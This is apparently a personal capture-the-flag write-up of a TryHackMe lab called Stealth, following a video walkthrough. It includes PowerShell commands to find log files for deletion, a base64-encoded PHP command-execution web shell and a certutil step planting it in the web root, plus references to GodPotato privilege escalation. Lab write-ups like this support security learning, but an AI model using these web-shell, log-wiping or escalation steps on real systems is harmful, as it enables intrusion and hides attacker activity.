 While skimming though through my notes and what I had written up to this point I rediscovered to priority to finish this machine as I got a lot out regardless on getting a flag after the foothold. I decided to background [Tyler Ramsbey's Stealth - Detailed Walkthrough -- TryHackMe LIVE!](https://www.youtube.com/watch?v=iICjs8754yE) while to reacquaint as I put in the 4+ hours, learnt a lot and got a foothold, but I need to wrap this up and move forward. Also [breakfast](https://www.youtube.com/watch?v=ZDiltBbhnYI) and everything else I have to do. Tyler also mentioned that [dodge box](https://tryhackme.com/room/dodge) exists, which I did not know I added it to a list of next boxes to finish after all the incomplete boxes I need to finish. In my frustration to complete this after so much steps forward and back I did not realise I had to delete log files.

Tyler got told by chat to use [gh0x0st/Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell/tree/main)
- https://github.com/gh0x0st 
![](thxrtristram.png)

Tristam seems like someone to follow and emulate!
![](hurrayfortristram.png)



```
Get-ChildItem -Path C:\user\evader -Include log.txt,*.log -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include log.txt,*.log -File -Recurse -ErrorAction SilentlyContinue
```

I then I had a large breakthrough in thinking while skipping thorough the video and wondering why he is using GodPotato to get NT SYSTEM. The answer being that Tyler added a web shell because the webserver has it is own privileges and this is a twist on the typical webserver user to user and is the inverse.

```bash
iconv -f ASCII -t UTF-16LE sente.php | base64 | tr -d "\n"
PAA/AHAAaABwACAAaQBmACgAaQBzAHMAZQB0ACgAJABfAFIARQBRAFUARQBTAFQAWwAnAGMAbQBkACcAXQApACkAewAgAGUAYwBoAG8AIAAiADwAcAByAGUAPgAiADsAIAAkAGMAbQBkACAAPQAgACgAJABfAFIARQBRAFUARQBTAFQAWwAnAGMAbQBkACcAXQApADsAIABzAHkAcwB0AGUAbQAoACQAYwBtAGQAKQA7ACAAZQBjAGgAbwAgACIAPAAvAHAAcgBlAD4AIgA7ACAAZABpAGUAOwAgAH0APwA+AAoA > sentebe64.ps1
```

- https://gist.github.com/sente/4dbb2b7bdda2647ba80b

Upload this
```powershell
certutil.exe -decode senteb64.ps1 C:\xampp\htdocs\shell.php
```

![](webnshellonthebox.png)
This did not work...

For some reason typical LOLBAS do not work, but there is wget on the machine...same of the shell
![](godpotatowithwget.png)

Potential this is just because of UAC? It is the same SID as the shell
![](weirdlydifferent.png)
